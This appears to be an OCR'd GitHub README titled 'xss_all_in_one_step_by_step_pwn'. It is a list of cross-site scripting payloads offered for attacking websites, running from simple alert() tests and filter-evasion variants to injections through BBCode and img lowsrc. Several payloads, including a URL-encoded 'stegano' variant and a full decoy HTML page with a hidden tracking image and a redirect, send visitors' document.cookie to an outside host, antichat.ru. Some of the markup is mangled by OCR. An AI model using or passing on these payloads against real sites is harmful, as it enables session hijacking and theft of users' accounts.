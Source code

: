 # xss_all_in_one_step_by_step_pwn
From simple to dedicated

script>alert('ALIVE')</script>
">(script>alert('ALIVE')</script>
>>>>><<script>alert('ALIVE')</script>
">http:/yoursite.com/someshit"><IMG%20SRC="javascript <strong></strong>:alert('ALIVE');">
";!--"(fuck)=&{()} // Filters?
'';!--"<XSS>=&{()}
SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
sc<script>ript>alert<></sc</script>ript>
 
 '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>
script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script>
script>alert(document.cookie)</script>">
<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)>'">
<img src="http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg">

<img src="https://png.pngtree.com/png-clipart/20190516/original/pngtree-lol-speech-bubble-stickers-png-image_3683583.jpg" lowsrc=javascript:alert(123) ></img>

<img>http://www.qwert.ru/1.jpg lowsrc=javascript:alert()</img>

<IMG SRC="javascript:alert('XSS');">

[img]http://www.qwert.ru/"/lowsrc="javascript:alert()"/1.jpg[/img]

[img]http://www.qwert.ru/"/lowsrc=javascript:alert()/1.jpg[/img]

(img source="http://www.qwert.ru/"/lowsrc="javascript:alert()"/1.jpg)

///////
script>
  img = new Image();
  img.src = "http://antichat.ru/cgi-bin/s.jpg?"+document.cookie;
</script>

')(script)img = new Image();
img.src="http://antichat.ru/cgi-bin/s.jpg?"+document.cookie;(/script)

')(script src=http://MySuite.ru/script/My.js)(/script) where JS contains (script)img = new Image(); img.src="http://antichat.ru/cgi-bin/s.jpg?"+document.cookie;

stegano xss :D

(script)
document.location.href="%68%74%74%70%3A%2F%2F%2A%2A%2A%2A%2E%72%75%2F%66%
6F%72%75%6D%3F%66%3D%27%3E%3C%73%63%72%69%70%74%3E%69%6D%67%20%3D%20%6E%65%77%20%49%6D%61%67
%65%28%29%3B%20%69%6D%67%2E%73%72%63%3D%22%68%74%74%70%3A%2F%2F%61%6E%74%69%63%68%61%74%2E%72
%75%2F%63%67%69%2D%62%69%6E%2F%73%2E%6A%70%67%3F%22%2B%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B
%69%65%3B%3C%2F%73%63%72%69%70%74%3E"
(/script)


(!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd")
(html)
(head)
(title)"www.****.ru"(/title)
(META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=windows-1251")
(/head)
(body)
(META HTTP-EQUIV="REFRESH" CONTENT="1; URL=http://www.****.ru/image/_1.jpg")
(script language="JavaScript" type="text/javascript")
document.write("(img src='http://antichat.ru/cgi-bin/s.jpg?'+document.cookie
style=display:none border=0 height=1 width=1/)");
document.title = "www.****.ru";
window.status = "Пожалуйста подождите";
(/script)
(body onload="LoadThisPage()")
(script language="JavaScript" type="text/javascript")
function LoadThisPage()
{
window.location.href = "http://www.****.ru/image/_1.jpg";
}
(/script)
(/body)
(/html)


